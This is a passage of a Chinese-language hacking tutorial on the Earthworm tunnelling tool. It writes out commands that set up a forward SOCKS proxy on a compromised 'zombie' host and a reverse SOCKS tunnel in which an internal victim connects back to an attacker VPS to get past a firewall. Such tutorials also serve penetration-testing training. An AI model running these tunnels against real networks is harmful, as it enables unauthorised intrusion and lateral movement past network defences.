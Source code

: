+---------+ +-------------------+

|HackTools| ->> | 7777-> 192.168.192.9 |

+---------+ +-------------------+

执行：ew_for_win_32.exe -s ssocksd -l 7777

意思是：在 w7 192.168.192. 9 主机上通过这个命令开启 7777 端口的 socks 代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20190913130005-5a0606e0-d5e3-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190913130005-5a0606e0-d5e3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190913130005-5a0606e0-d5e3-1.png)  
接下来可以使用 sockscap 或者  
Proxychains 等工具访问代理端口，因为之前提过用法我就不墨迹了，直接放演示截图

[](https://xzfile.aliyuncs.com/media/upload/picture/20190913130043-709d56ec-d5e3-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190913130043-709d56ec-d5e3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190913130043-709d56ec-d5e3-1.png)  
注：此属于正向代理，代理的是黑客客户端，连接的是肉鸡相当于服务器

### Earthworm 使用方法二【反向代理】

> Win7 x32 主机 ip:192.168.0.75 【hack 机】
> 
> Win7 主机 ip:192.168.0.226 【公网机】
> 
> Win7 主机 ip:192.168.192.9 【内网机】

目标网络边界不存在公网 IP，需要通过反弹方式创建 socks 代理

192.168.192.9 一台可控公网 IP 主机 可控内网主机

+---------+ +--------------------------+ | +---------------+

|HackTools| ->> | 1089 ->192.168.0.226 -> 9999 | 防火墙 | **\<--**  
192.168.0.75 |

+---------+ +--------------------------+ | +---------------+

在公网机【vps】上执行：ew_for_win_32.exe -s rcsocks -l 1089 -e 9999

意思是：在 192.168.0.226 的公网主机添加转接隧道，将 1089  
收到的代理请求转交给反连 9999 端口的主机

[](https://xzfile.aliyuncs.com/media/upload/picture/20190913130353-e2170bd8-d5e3-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190913130353-e2170bd8-d5e3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190913130353-e2170bd8-d5e3-1.png)  
在内网主机【可控肉鸡】上执行：ew_for_win_32.exe -s rssocks -d 192.168.0.226 -e  
9999

意思是：将目标网络的可控内网主机反向连接公网主机

[](https://xzfile.aliyuncs.com/media/upload/picture/20190913130417-efdf6b3e-d5e3-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190913130417-efdf6b3e-d5e3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190913130417-efdf6b3e-d5e3-1.png)  
接下来可以用通过访问 sockscap 或者 Proxychains 等工具 192.168.0.226:1089 端口使用  
rssocks 主机提供的 socks5 代理服务
